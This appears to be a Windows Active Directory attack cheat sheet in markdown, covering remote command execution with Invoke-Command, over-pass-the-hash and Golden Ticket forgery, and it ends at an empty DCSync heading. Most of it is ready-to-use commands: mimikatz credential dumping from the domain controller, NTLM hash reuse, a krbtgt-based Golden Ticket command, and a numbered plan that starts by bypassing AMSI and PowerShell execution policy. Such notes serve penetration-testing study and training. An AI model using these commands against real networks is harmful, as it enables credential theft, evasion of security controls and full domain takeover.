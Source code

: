 
Example:
```powershell
Invoke-Command -ComputerName <computer> -Credential <user> -ScriptBlock {whoami}
Invoke-Command -ScriptBlock {whoami;hostname} -Credential <user> -ComputerName (Get-Content .\Desktop\computerlist.txt)
Invoke-Command -FilePath <path\script.ps1> -Credential <user> -ComputerName (Get-Content .\Desktop\computerlist.txt) or -Session <$sess>
```

Execute functions that were imported locally in remote machines:
```powershell
Invoke-Command -ScriptBlock ${function:<name>} -ComputerName <computer>
```


## Over Pass the Hash

> With hashes in hand we can use mimikatz or invoke-mimikatz

```powershell
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<hash> /run:<cmd>

Invoke-Mimikatz -Command ‘ “command” ’
```


## Golden Ticket
```powershell
Mimikatz # lsadump::lsa /patch
```


Strategy:

1. bypass AMSI
2. bypass ExecutionPolicy
3. import mimikatz
4. open session in DC
5. bypass AMSI in DC
6. execute ScriptBlock remotely with Invoke-Command -Session $sess -ScriptBlock  ${Function:Invoke-Mimikatz ‘ "lsadump::lsa /patch" ’}
7.  with krbtgt in hands we can execute the golden ticket

```powershell
Mimikatz # kerberos::golden /user:<user> /domain:<domain FQDN> /sid:<domain SID> /krbtgt:<hash> /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt or /ticket to save in file
```

   
> RID and Group it will be: *513*, *518*, *519*, *520*
> time in minutes 

8. Invoke-Mimikatz -Command ‘ “golden ticket command” ’


## DCSync
